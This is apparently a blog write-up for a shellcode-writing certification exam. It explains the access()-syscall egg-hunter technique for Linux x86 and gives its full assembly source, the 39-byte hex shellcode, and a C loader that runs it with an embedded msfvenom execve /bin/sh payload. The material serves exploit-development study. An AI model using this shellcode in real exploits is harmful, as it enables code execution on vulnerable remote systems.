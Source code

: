 ## SLAE Exam Assignment 3 - Creating an Egg-hunter shellcode

## Prologue
The third assignment for our SLAE Certification exam is creating an egg-hunter shellcode in such a way so as to make it's secondary payload configurable.

Egg-hunter remains an extremely important topic for study by exploitation analysts and rightfully so. 

So without any further ado, let's get down with it!

## So what is an egg-hunter anyway?
Imagine that you have found a buffer overflow exploit in a vulnerable software running in a remote machine but the buffer size or the space controlled by you is not nearly enough to fit a Bind/Reverse TCP shellcode :(

What do you do then?

Enter the Egg-hunter.

![Eggs](../assets/images/eggs.jpg "Eggs")

As many before me and also the ones who will be attempting this exam after me, there is one paper that stands out of all and is referenced by almost everyone perhaps because of it's simplicity and brilliance that is: [Safely Searching Process Virtual Address Space](https://github.com/upayansaha/SLAE-Code-Repository/blob/master/Assignment%203/egghunt-shellcode.pdf) by Skape.

I would recommend all the readers of this blog to read the paper first and then come back here.

I shall not discuss the paper in-depth in this blog-post. However, I shall mention some key concepts required for the analysis and implementation of an egg-hunter payload.
### Egg-hunter payload explained in a sentence
The egg-hunter is a shellcode usually optimized and small in size which is designed to find the final stage larger shellcode marked by an "egg"(4-8 bytes of data) and redirect execution flow to it once it finds it in the virtual address space.
### But how does it work?
The way the egg-hunter works is by iterating through the pages of memory and looking for the "egg" until its found.

Okay okay I get it but as far as I knew when a program tries to read unallocated memory in Linux, the program will crash throwing a `SIGSEGV` right?

Here comes Skape's out-of-the-box solution. He has devised a way to use the `access()` syscall to check whether a page of memory is accessible or not by using the memory address as argument and by checking the error-code(0xf2 OR EFAULT) returned by the syscall, we can determine whether the page is accessible or not. This enables us to scan the memory safely.

Needless to say, if the page is inaccessible then it should skip to the next page directly otherwise it should continue scanning the page looking for our "egg".
### One final note
One last important matter to discuss is what should we consider as this "egg" that we are talking about?

Some implementations of the egg-hunter dictate the condition that the egg itself must be an executable for the egg-hunter to transfer the execution flow to the secondary payload stored somewhere else in memory.

Also, a single instance(4 bytes) of the egg shall be present in the egg-hunter itself so as to enable it to find it in memory by comparison right? Now there might be a scenario where the egg-hunter accidentally finds itself in process's memory thinking it has found the egg when it actually hasn't. So we must keep the egg as something unique.

In light of these issues, Skape has devised an 8-byte executable egg by simply appending the egg to itself making it unique and easily identifiable in the memory. While this is not strictly mandatory but in order to avoid adding unnecessary overheads and complexities, we shall also be using the original "egg" for the purposes of this blog post.

## Egg-hunter Assembly code
Here's the full assembly source of the egg-hunter shellcode:

```nasm
; Filename: egg-hunter_shellcode.nasm
; Author: Upayan a.k.a. slaeryan
; SLAE: 1525
; Contact: upayansaha@icloud.com
; Purpose: This is a x86 Linux null-free egg-hunter shellcode implementing Skape's 
; first technique using access() syscall
; Compile with:
; ./compile.sh egg-hunter_shellcode
; Size of shellcode: 39 bytes


global _start

section .text
_start:

    mov ebx, 0x50905090    ; Moving the 4-byte egg to EBX register
    xor ecx, ecx           ; Clearing ECX register
    mul ecx                ; Clearing EAX and EDX

    ; Function to skip to next page
    turn_page:             
    or dx, 0xfff           ; Bitwise OR of DX value with 0xfff

    ; Function to check whether the following 8 bytes of memory page is accessible or not
    check_page:
    inc edx                ; Increment EDX to make it a multiple of 4096 [PAGE_SIZE]
    pushad                 ; To preserve the current register values in stack
    lea ebx, [edx+0x4]     ; Load the address of the next 8 bytes in EBX to check
    mov al, 0x21           ; Load Syscall value for access() = 0x21 OR 33 in EAX
    int 0x80               ; Executing access() syscall
    cmp al, 0xf2           ; Comparing the return value in AL to 0xf2 == EFAULT
    popad                  ; Restore the register values as we preserved in the stack
    jz turn_page           ; Jump to next page if we got EFAULT otherwise continue

    ; Now that we know the memeory is accessible, we will search for our target!
    cmp [edx], ebx         ; Check if we got the egg in [EDX]
    jnz check_page         ; If not zero - Egg not found! Check the next 8 bytes of the page otherwise if zero - we already found the first 4 bytes of the egg
    cmp [edx+0x4], ebx     ; Check the next 4 bytes [EDX+4] to confirm the kill
    jnz check_page         ; If not zero - Egg wasn't found, false positive! otherwise if zero - mission accomplished - egg found successfully!
    jmp edx                ; Transfer control to the secondary payload
```

There's not much to exaplain in this source as I have commented in-detail on almost every line of code. Note the various optimizations in various parts of the code to minimize the number of instructions as far as possible. 

Also, one important point to note is that the default `PAGE_SIZE` of Linux/x86 is `4kB` or `4096 bytes` which becomes `0x1000` in hex. This would introduce null-characters in our egg-hunter shellcode if we use it which is not exactly desirable. 

As a workaround for this problem, we perform bitwise OR operation on the present `DX` value with `4095` OR `0xfff` and increment `DX` by 1 in `check_page` function in a loop to align the pages properly and make it a multiple of `PAGE_SIZE` like  = 4096(4095|0xfff=4095 + 1), 8192(4096|0xfff=8191 + 1), 12288(8192|0xfff=12287 + 1) and so on...

This enables us to search through all the memory pages in an incremental fashion without skipping any and it is quite a clever trick devised by Skape!

## Egg-hunter shellcode
Let's compile the assembly source with the `compile.sh` script and then subject the ELF32 binary produced to the `converter.py` script to extract the shellcode.

Here's the egg-hunter shellcode:

`\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2`

Looks to be null-free and also the size comes as `39 bytes` as described by Skape.

## Staged shellcode loader
Here's the source of the staged shellcode loader which egg-hunter which in-turn loads the secondary payload(currently configured as a MSF execve /bin/sh payload):

```c
// Contact: upayansaha@icloud.com
// Purpose: This loader program has the secondary payload(shellcode) configurable.
// The length of both the payloads are printed and then the egg-hunter payload is 
// executed which in turn loads the secondary payload.
// Note: Don't forget to append the egg(\x90\x50\x90\x50\x90\x50\x90\x50) to the shellcode.
// Compile with:
// g++ -fno-stack-protector -z execstack staged_shellcode_loader.cpp -o staged_shellcode_loader


#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = "\x90\x50\x90\x50\x90\x50\x90\x50\xba\xec\xc4\x30\xdf\xdb\xd1\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
                            "\x0b\x31\x56\x15\x83\xee\xfc\x03\x56\x11\xe2\x19\xae\x3b\x87"
                            "\x78\x7d\x5a\x5f\x57\xe1\x2b\x78\xcf\xca\x58\xef\x0f\x7d\xb0"
                            "\x8d\x66\x13\x47\xb2\x2a\x03\x5f\x35\xca\xd3\x4f\x57\xa3\xbd"
                            "\xa0\xe4\x5b\x42\xe8\x59\x12\xa3\xdb\xde"; // CHANGE ME | Gen. using: msfvenom -p linux/x86/exec CMD=/bin/sh --arch x86 -f c -b "\x00"

int main(int argc, char* argv[])
{
    printf("Egg hunter length(Primary payload): %d\n", strlen((const char*)egghunter));
    printf("Shellcode length(Secondary payload): %d\n", strlen((const char*)shellcode)-8);
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

## Egg-hunter demo:
Well all talk and no fun is bad which is why here's a demo of the egg-hunter shellcode which we made just now in action. Enjoy;)

